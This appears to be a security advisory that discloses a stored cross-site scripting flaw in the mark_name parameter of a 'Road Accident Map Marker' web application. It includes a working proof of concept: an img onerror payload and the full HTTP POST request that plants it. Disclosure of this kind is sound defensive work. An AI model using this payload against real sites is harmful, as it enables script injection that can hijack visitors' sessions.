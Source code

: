 # Stored XSS Vulnerability in Road Accident Map Marker

### Title: Stored XSS Vulnerability in Road Accident Map Marker 
### Affected Component: /endpoint/add-mark.php
### CWE: CWE-79 (Improper Neutralization of Input During Web Page Generation)

### Impact:
The web application is vulnerable to stored cross-site scripting (XSS) attacks within the Road Accident Marker Area functionality. Attackers can exploit this vulnerability by injecting malicious JavaScript code into the "mark_name" parameter,
which is used to mark locations. When unsuspecting users view the marked road accident area, the injected script executes within their browsers, potentially leading to various malicious activities such as session hijacking or data theft.

### Proof of Concept (POC):
To exploit the stored XSS vulnerability, attackers craft a payload containing malicious JavaScript code and inject it into the "mark_name" parameter while assigning a project. For example, 
submitting the payload `<img+src=x+onerror=alert('PwnedPixel')>` triggers an alert box when viewed. This demonstrates the successful execution of arbitrary scripts within the application.

#### HTTP Request:
```
POST /road-accident-map-marker/endpoint/add-mark.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 130
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/road-accident-map-marker/



date=2024-12-27&mark_name=<img+src=x+onerror=alert('PwnedPixel')>&details=x&mark_lat=9.696874&mark_long=122.802429
```

### Proof with Screenshot:
![image](https://github.com/user-attachments/assets/4b7d7121-0689-4bae-86ae-d651eb8ae599)


## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
